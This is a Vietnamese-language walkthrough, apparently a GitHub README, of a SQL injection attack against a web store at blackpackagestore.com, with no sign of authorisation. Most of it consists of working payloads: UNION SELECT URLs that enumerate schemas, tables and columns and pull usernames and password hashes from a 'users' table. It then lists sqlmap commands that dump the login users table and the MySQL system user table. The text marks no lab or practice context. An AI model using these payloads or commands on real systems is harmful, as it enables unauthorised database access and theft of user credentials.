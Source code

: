# TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/f1267547-fce3-4a83-8b3a-c647b831057b)

![image](https://github.com/user-attachments/assets/f9557a86-761c-4539-8d4a-e08855dc7b98)

![image](https://github.com/user-attachments/assets/8b967633-6006-433d-80f3-3611674607cc)

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

## Kiểm tra database, version, user 

https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30

![image](https://github.com/user-attachments/assets/81472dc4-9128-4b8a-a717-ee4fadbfa595)

![image](https://github.com/user-attachments/assets/0935da4c-e509-4d8d-9af8-eefd9a3a2906)

![image](https://github.com/user-attachments/assets/9987c07c-51a6-4722-9bc7-7745975c3fde)

![image](https://github.com/user-attachments/assets/9ea8ba0d-4071-424b-98bb-1dde03b22b6f)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.tables+wHeRe+table_schema='login'

![image](https://github.com/user-attachments/assets/998b38ce-8ccb-4b1b-b67a-94892b82c483)

**3. Liệt kê các cột trong bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.columns+wHeRe+table_name=%27users%27

![image](https://github.com/user-attachments/assets/56202ebd-5494-4202-902c-8bcce97b7699)

**4. Trích xuất dữ liệu bất kì**
https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_name --dump`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_password_hash --dump`

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql --tables`

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user --columns`

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user -C Host,User,plugin --dump`

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)

